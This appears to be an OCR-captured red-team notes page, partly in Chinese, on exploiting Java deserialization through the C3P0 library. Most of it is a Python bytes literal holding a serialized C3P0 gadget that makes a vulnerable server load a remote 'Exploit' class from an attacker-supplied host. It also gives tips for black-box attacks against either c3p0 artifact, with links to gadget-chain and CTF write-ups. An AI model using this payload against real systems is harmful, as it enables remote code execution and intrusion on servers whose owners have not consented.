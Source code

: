 ```py
__bb_C3P0 = b'\xac\xed\x00\x05sr\x00(com.mchange.v2.c3p0.PoolBackedDataSource\xde"\xcdl\xc7\xff\x7f\xa8\x02\x00\x00xr\x005com.mchange.v2.c3p0.impl.AbstractPoolBackedDataSource\x00\x00\x00\x00\x00\x00\x00\x01\x03\x00\x00xr\x001com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase\x00\x00\x00\x00\x00\x00\x00\x01\x03\x00\x08I\x00\x10numHelperThreadsL\x00\x18connectionPoolDataSourcet\x00$Ljavax/sql/ConnectionPoolDataSource;L\x00\x0edataSourceNamet\x00\x12Ljava/lang/String;L\x00\nextensionst\x00\x0fLjava/util/Map;L\x00\x14factoryClassLocationq\x00~\x00\x04L\x00\ridentityTokenq\x00~\x00\x04L\x00\x03pcst\x00"Ljava/beans/PropertyChangeSupport;L\x00\x03vcst\x00"Ljava/beans/VetoableChangeSupport;xpw\x02\x00\x01sr\x00=com.mchange.v2.naming.ReferenceIndirector$ReferenceSerializedb\x19\x85\xd0\xd1*\xc2\x13\x02\x00\x04L\x00\x0bcontextNamet\x00\x13Ljavax/naming/Name;L\x00\x03envt\x00\x15Ljava/util/Hashtable;L\x00\x04nameq\x00~\x00\nL\x00\treferencet\x00\x18Ljavax/naming/Reference;xppppsr\x00\x16javax.naming.Reference\xe8\xc6\x9e\xa2\xa8\xe9\x8d\t\x02\x00\x04L\x00\x05addrst\x00\x12Ljava/util/Vector;L\x00\x0cclassFactoryq\x00~\x00\x04L\x00\x14classFactoryLocationq\x00~\x00\x04L\x00\tclassNameq\x00~\x00\x04xpsr\x00\x10java.util.Vector\xd9\x97}[\x80;\xaf\x01\x03\x00\x03I\x00\x11capacityIncrementI\x00\x0celementCount[\x00\x0belementDatat\x00\x13[Ljava/lang/Object;xp\x00\x00\x00\x00\x00\x00\x00\x00ur\x00\x13[Ljava.lang.Object;\x90\xceX\x9f\x10s)l\x02\x00\x00xp\x00\x00\x00\nppppppppppxt\x00\x07Exploitt' + struct.pack('>H', len(c3p0_host_b)+1) + c3p0_host_b + b'/t\x00\x07exploitppppw\x04\x00\x00\x00\x00xw\x02\x00\x01x'    

```

C3P0不出网利用：
> 市面上存在两个C3P0，com.mchange:c3p0、c3p0:c3p0。比较常见的是第一个，两个C3P0都能够利用但是因为SUID的原因需要稍微变化一下，黑盒反序列打第一个没反应时可以尝试下第二个，可能有惊喜~

参考：
- http://redteam.today/2020/04/18/c3p0%E7%9A%84%E4%B8%89%E4%B8%AAgadget/
- https://mp.weixin.qq.com/s/KBog9XXz7Of93hAiV8Y7fQ
- https://wx.zsxq.com/mweb/views/topicdetail/topicdetail.html?topic_id=818885112215152&inviter_id=28512258815451&share_from=ShareToWechat&keyword=yRB6EQj
- [cc常见的链关系图](https://wx.zsxq.com/mweb/views/topicdetail/topicdetail.html?topic_id=218851818848141&inviter_id=28512258815451&share_from=ShareToWechat&keyword=UZ7mUj6)

## Ref
- [Real Wolrd CTF 3rd Writeup | Old System](https://mp.weixin.qq.com/s/ClASwg6SH0uij_-IX-GahQ)
- https://github.com/voidfyoo/rwctf-2021-old-system/tree/main/writeup
